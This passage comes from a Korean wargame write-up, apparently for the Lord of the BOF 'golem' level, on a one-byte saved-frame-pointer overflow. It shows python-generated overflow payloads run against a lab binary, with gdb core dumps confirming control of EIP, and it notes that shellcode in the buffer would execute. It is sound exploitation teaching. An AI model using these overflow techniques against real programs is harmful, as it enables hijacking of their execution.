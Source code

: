 <img src="http://eliez3r.synology.me/assets/img/study/system/SFP Overflow/1571276427498.png" width="600px">

그리고 `pop eip` 명령을 통해 esp가 가리키고 있던 주소(0xbffffc47)의 값 `0x00a970bf` 값이 eip로 들어가고 esp는 4증가한다.  그리고 최종적으로 `jmp eip`를 통해 해당 주소로 점프해 명령을 수행하게 된다.

![](http://eliez3r.synology.me/assets/img/study/system/SFP Overflow/gif.GIF){: width="70%" height="70%"}

-----

이렇게 하나하나보면 장황해보이지만 정리하면 간단하다.

처음 우리가 problem_child함수의 SFP를 1byte 조작하여 `0xbffffc43` 으로 조작되었고, **최종적으로 실행되는 명령주소는 `0xbffffc47` 주소에 들어있는 주소값(조작한 값의 +4한 주소)이다.**

정확하게 확인해보자.

buffer의 시작주소는 `0xbffffc84`이다. 마지막 1byte를 `\x84` 로 바꿔보자. (-4 하지 않은 값)

```
[golem@localhost golem]$ ./aarkknight `python -c 'print "A"*4+"B"*36+"\x84"'`
AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB꾻퓹♠?왠?옹   ♥@☻
Segmentation fault (core dumped)
[golem@localhost golem]$ gdb -q -c core
Core was generated by `./aarkknight AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB?.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

위와 같이 `0x42424242` 주소를 알지 못해 에러메시지를 표시한다. 그러면 -4한 값을 넣어주면?

```
[golem@localhost golem]$ ./aarkknight `python -c 'print "A"*4+"B"*36+"\x80"'`
AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB?퓹? ♠?왠?옹   ♥@☻
Segmentation fault (core dumped)
[golem@localhost golem]$ gdb -q -c core
Core was generated by `./aarkknight AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
```

buffer배열의 첫 4byte("AAAA")를 실행하려는 모습을 볼 수 있다. 만약 buffer배열에 Shell Code를 넣어두었다면 Shell Code가 실행되는 상황이 된다.

이처럼 sfp값의 1byte만을 Overwrite하여 프로그램의 흐름을 바꿀수 있게 된다.

-----